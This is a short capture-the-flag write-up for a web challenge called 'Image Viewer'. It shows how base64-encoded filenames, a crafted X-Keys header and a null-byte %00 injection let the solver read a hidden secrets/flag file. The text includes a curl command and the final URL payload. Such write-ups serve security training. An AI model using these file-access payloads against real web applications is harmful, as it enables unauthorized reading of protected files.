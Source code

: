 ## Image Viewer

Look beyond what you see. Take a leap of faith.

[URL]

## Solution

`?name=` is the GET parameter to specify an image.

Figure out that filenames are base64 encoded (but not the jpg/png extension), the default image extension is jpeg, and that a null-byte `%00` marks the end of a filename.

Send a request with an `X-Keys` header specifying a string whose md5 hash ends in 123456. For example:

`curl [URL] -H "X-Keys: d4390a27291e00035ccc5be8b677fd26"`

In the directory listing find `flag.png` and base64 decode the word `flag` via PHP (important) so that, when the filename is base64 encoded, you get `flag.png` again.

`/?name=(base64_decode of "flag").png%00`

The image shows a red herring. Literally :)

Also notice the `secrets` directory. Do the same as above, but decode `secrets/flag` this time (good thing base64 has slashes).

```php
<?php
echo urlencode(base64_decode("secrets/flag")); # %B1%E7%2Bz%DB%3F%7EV%A0
```

Final payload: `[URL]?name=%B1%E7%2Bz%DB%3F%7EV%A0.png%00`
